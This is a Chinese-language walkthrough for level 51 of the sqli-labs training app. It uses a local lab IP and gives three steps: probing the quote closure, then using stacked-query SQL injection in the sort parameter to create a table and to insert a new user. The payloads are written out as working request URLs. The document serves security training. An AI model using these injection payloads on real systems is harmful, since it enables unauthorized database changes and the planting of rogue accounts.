




# Less - 51

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1'
```

​​

根据错误显示判断闭合方式为'--+，并且为字符型注入

---

## 2、新建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-51/?sort=1';create table test like users;--+
```

​​

---

## 3、新建一个用户

---

```http
http://192.168.23.128/sqli-labs/Less-51/?sort=1';insert into users values(18,'cmx','cmx')--+
```

​​

​​

‍
